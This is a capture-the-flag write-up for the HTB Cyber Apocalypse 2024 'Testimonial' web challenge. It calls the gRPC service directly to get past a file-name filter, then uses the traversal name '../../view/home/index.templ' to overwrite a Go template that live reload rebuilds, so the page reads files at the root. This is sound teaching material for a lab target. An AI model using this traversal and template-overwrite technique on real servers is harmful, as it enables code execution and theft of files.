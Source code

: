 ```yaml
---
title: "[web] Testimonial"
date: 2024-03-22T21:00:00+08:00
summary: HTB Cyber apocalypse 2024 - GRPC, reload and path traversal
draft: false
tags: [ "ctf", "web" ]
---
```

This challenge exposes a website on a port and a GRPC server on a different port. This tech stack was refreshing for a CTF, as the server was in Golang, which i did not see a lot in CTF.

The Website allows users to submit a testimonial, with 2 fields, content and name. When a user is adding a new testimonial on the website, a handler receives the name and content, and will call the GRPC service, that will in turn write the content of the testimonial to the file "public/testimonials/{customer}"

Uploading a testimonial creates a file, and we control both the name and the content of this file, which is quite promising.

The handler for creating testimonial does however sanitize the file name before calling the GRPC service:

```Golang
func (c *Client) SendTestimonial(customer, testimonial string) error {
	ctx := context.Background()
	// Filter bad characters.
	for _, char := range []string{"/", "\\", ":", "*", "?", "\"", "<", ">", "|", "."} {
		customer = strings.ReplaceAll(customer, char, "")
	}

	_, err := c.SubmitTestimonial(ctx, &pb.TestimonialSubmission{Customer: customer, Testimonial: testimonial})
	return err
}
```

This mean we can't create directly an arbitrary file, however, the GRPC server is also accessible, so directly calling the GRPC server can allow us to create a file on the server, which we can test and validate using `grpc_cli` . The GRPC server does not implement reflection capabilities, but within the code -- that we can download -- we have the protofile, the following command:

```bash
grpc_cli call localhost:50045 SubmitTestimonial "customer:'test' testimonial:'test'" --protofiles=ptypes.protofile
```
creates a file test, with the content test in the public/testimonials folder.

*At this point, we can rewrite the code of the application, add a new handler that read all the file at the root, and call it a day, right?*

Wait, no so fast, the website is in Golang, which is compiled, luckily enough, the website is with the code source, but still, changing a source file will not do anything to the executable, we would need to recompile the binary.


Luckily for us, we have a development version of the website, and it's running using [air](https://github.com/cosmtrek/air), a live reload utility for golang developemnt. Checking the configuration of air, in the .air.toml file, we see the following line:

```
include_ext = ["tpl", "tmpl", "templ", "html"]
```

So air will recompile the binary, if any file with those extension is modified.

Another interesting fact, this website uses [templ](https://github.com/a-h/templ) to generate HTML content. templ is a HTML templating language for Go, it uses language that marries Golang and HTML and generates on build a go file, with a function that will return html content. It also allows to run go code as part of the generated result file. 

Looking at the templ file, we see that it's getting the testimonial to display on the home page from the following function:

```golang
func GetTestimonials() []string {
	fsys := os.DirFS("public/testimonials")	
	files, err := fs.ReadDir(fsys, ".")		
	if err != nil {
		return []string{fmt.Sprintf("Error reading testimonials: %v", err)}
	}
	var res []string
	for _, file := range files {
		fileContent, _ := fs.ReadFile(fsys, file.Name())
		res = append(res, string(fileContent))		
	}
	return res
}
```

Exploit:
----

We want the website to load the content of the root directory where the flag is, to load the testimonials instead of the content of folder `public/testimonials`.

To achieve this, we can use the GRPC to rewrite the template of the home page, as it has a templ extension, the website will be rebuilt and the new code will be executed.

Let's make a copy of the template for the home page and replace the function `GetTestimonials` by the following;

```golang
func GetTestimonials() []string {
	fsys := os.DirFS("/")	
	files, err := fs.ReadDir(fsys, ".")		
	if err != nil {
		return []string{fmt.Sprintf("Error reading testimonials: %v", err)}
	}
	var res []string
	for _, file := range files {
		fileContent, _ := fs.ReadFile(fsys, file.Name())
		res = append(res, string(fileContent))		
	}
	return res
}
```

Call the GPRC service to create a testimonial with name `../../view/home/index.templ`, for the content, let's use the copy of the template we just described, then website is then rebuilt and display the content of the file at the root of the server.

![terminal](img/flag.png)

And so we get the flag.
